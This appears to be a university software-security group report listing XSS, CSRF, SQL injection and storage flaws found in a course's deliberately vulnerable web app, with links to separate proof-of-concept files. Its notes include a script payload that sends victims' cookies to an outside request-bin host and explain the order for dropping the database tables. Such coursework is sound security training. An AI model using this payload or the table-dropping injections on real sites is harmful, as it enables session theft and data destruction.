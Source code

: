 # Project Report of Group 32

Group Image available [here](http://d39e092608f9769e2696bf07d987072b4b2dd1dc9bce5e0151910fc276ae.project.ssof.rnl.tecnico.ulisboa.pt/)

- Vulnerability 1: XSS when creating a post allows attacker to run javascript code on other user's browsers [(link)](vuln1.md)
- Vulnerability 2: XSS in editing a post allows attacker to run javascript code on other user's browsers [(link)](vuln2.md)
- Vulnerability 3: XSS in updating the profile's name allows the attacker to run javascript code on other users' browsers [(link)](vuln3.md)
- Vulnerability 4: XSS in updating the profile's about allows the attacker to run javascript code on other users' browsers [(link)](vuln4.md)
- Vulnerability 5: CSRF allows to create malicious posts [(link)](vuln5.md)
- Vulnerability 6: CSRF allows to send friend requests [(link)](vuln6.md)
- Vulnerability 7: SQL Injection in login form allows to login as admin [(link)](vuln7.md)
- Vulnerability 8: SQL Injection search friend allows see all username-password or other table information (e.g. Friends, FriendsRequests, etc..) [(link)](vuln8.md)
- Vulnerability 9: XSS on profile picture allows attacker to run javascript code on other user's browsers [(link)](vuln9.md)
- Vulnerability 10: XSS in registry form allows attacker to run javascript code on other user's browsers [(link)](vuln10.md)
- Vulnerability 11: SQL Injection search friend allows to drop any table present in database [(link)](vuln11.md)
- Vulnerability 12: SQL Injection add friend allows to drop any table present in database [(link)](vuln12.md)
- Vulnerability 13: SQL Injection creating a post allows to drop any table present in database [(link)](vuln13.md)
- Vulnerability 14: SQL Injection editing a post allows to drop any table present in database [(link)](vuln14.md)
- Vulnerability 15: SQL Injection updating profile allows to drop any table present in database [(link)](vuln15.md)
- Vulnerability 16: Insecure cryptographic storage leads to a possible credentials' leak and other important data (Present in Users table - password column)
- Vulnerability 17: Insecure transport layer protection, sensitive traffic not encrypted over internet (This website doesn't run under https)

## Notes

- Due to stored XSS creating several alerts, it is advisable to use the /init endpoint between running each PoC.
- In every XSS PoC we attempted to show the vulnerability with an alert. However the vulnerabilities can be exploited in various ways, including stealing the victims' cookies.
  - Example: Instead of `<script>alert(1);</script>` the payload would be something like: `<script>window.location.href="https://postb.in/something?a="+document.cookie</script>`
- To drop all project tables in vulnerability PoCs 11 to 14 it is need to drop them in the following order: `Posts, FriendsRequests, Friends, Users`.
- We provide a folder `Resources` for the vuln8 POC with a picture example to submit.

